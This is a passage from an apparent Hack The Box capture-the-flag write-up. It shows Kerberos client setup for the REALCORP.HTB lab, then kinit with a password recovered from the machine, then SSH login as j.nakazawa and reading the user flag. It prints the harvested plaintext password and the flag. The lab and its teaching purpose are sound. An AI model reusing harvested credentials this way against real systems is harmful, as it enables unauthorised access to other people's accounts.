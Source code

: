 The **/etc/smtpd/creds** contains a hash, but it cracks to the same as found afore. <br> 

Now we need to issue a TGT to get a TGS from kerberos. For that, we need to configure the kerberos client by modifying the **/etc/krb5.conf** and adding the following lines below the square bracket sections
```bash
[libdefaults]
        default_realm = REALCORP.HTB

[realms]
        REALCORP.HTB = {
                kdc = 10.10.10.224
        }

[domain_realm]
        srv01.realcorp.htb = REALCORP.HTB
```

Might need to fiddle around with the **/etc/hosts** due to **srv01.realcorp.htb** conflicts <br>

Now, we need to get a **TGS** by sending the **TGT** for that we do the following
```bash
cmd: kinit j.nakazawa
Password:  sJB}RM>6Z~64_

cmd: klist
Ticket cache: FILE:/tmp/krb5cc_1000                                                          
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal                                  
04/15/2021 00:03:51  04/16/2021 00:03:51  krbtgt/REALCORP.HTB@REALCORP.HTB
```

You might need to change your clock to stay in a close sync with the kerberos server by checking the valid tarting date and do
```bash
cmd: sudo date -s "15 APR 2021 00:15"
Thu 15 Apr 2021 12:15:08 AM WEST
```

Now its time to test the **ssh** connection to **10.10.10.224** (the initial machine) <br>

**NOTE:** depending on your system you might need to configure ssh to work with kerberos (i had issues on manjaro but worked directly on kali) <br>

```bash
cmd: ssh j.nakazawa@10.10.10.224

# We got in
cmd: whoami && id
j.nakazawa
uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

cmd: cat ~/user.txt
#FLAG: 7e8dff07c12bd781b457aa2c0123af23
```
